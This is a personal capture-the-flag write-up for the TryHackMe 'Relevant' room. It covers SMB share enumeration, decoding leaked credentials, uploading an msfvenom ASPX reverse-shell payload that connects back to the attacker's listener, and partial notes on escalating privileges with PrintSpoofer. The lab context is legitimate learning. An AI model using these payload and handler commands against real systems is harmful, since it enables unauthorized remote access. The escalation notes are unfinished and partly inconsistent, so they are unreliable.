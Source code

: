 
enumeration

![nmap scan screenshot ](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20151506.png?raw=true)
![continued nmap screenshot](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20152835.png?raw=true)

```
gobuster dir -u http://10.10.50.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
```
![gobuster scan](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20152608.png?raw=true)

smb

To show what was listed in the smb share.
```
smbclient -L \\\\10.10.50.140\\
```
```
smbclient  \\\\10.10.10.144\\nt4wrksv
```
![smb](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154052.png?raw=true)

The `get` command wasn't working. I added a destination for the passwds.txt
![smb transfer file](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154125.png?raw=true)


The strings needed to be decoded base64
![base64 -d](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154538.png?raw=true)

RCE vulnerability via an insecure file upload path that uses SMB shares as the storage backend.

For testing I tried to see if i could access the share through a browser. Seeing if 
I could put test.txt into the smb. In the smb share `put text.txt`
![text.txt in browser](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20161907.png?raw=true)


make payload  (note check payload is the same in msfvenom and msfconsole)
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.137.19 LPORT=8910 -f aspx -o reverse1.aspx
```
![payload](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20155335.png?raw=true)

in the smb share add   
```
put reverse.aspx
```
![aspx in smb](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20155759.png?raw=true)





browser
```
http://10.10.10.144:49663/nt4wrksv/reverse1.aspx
```
execute the browser and msfconsole 

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.137.19
LHOST => 10.10.137.19
msf6 exploit(multi/handler) > set LPORT 8910
LPORT => 8910
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.137.19:8910 
[*] Command shell session 2 opened (10.10.137.19:8910 -> 10.10.10.144:49762) at 2025-05-28 21:24:48 +0100
```=

Shell Banner:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
-----
          

c:\windows\system32\inetsrv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

c:\windows\system32\inetsrv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\windows\system32\inetsrv
```
msfshell

```
cd c:\Users\Bob\Desktop
```
user.txt

---------------------->>>> priv escalation need to redo. <<<<<----------------- start here to see about exploit
i cant remember how i did it the first time 
Priv Escalation

```
whoami /priv
```
SeImpersonatePrivilege

location of the smb directory 
```
c:\inetpub\wwwroot\nt4wrksv
```
https://github.com/itm4n/PrintSpoofer

i can use metasploit for it. bg session 

```
search printspooler

use 4

sessions

set session 1

run

```
need to upgrade meterpreter shell 
```
use post/multi/manage/shell_to_meterpreter

set session 1

run
```
now need to run the printspooler again




#I couldnt get the smb share to copy the file over to my machine and still not sure of the error
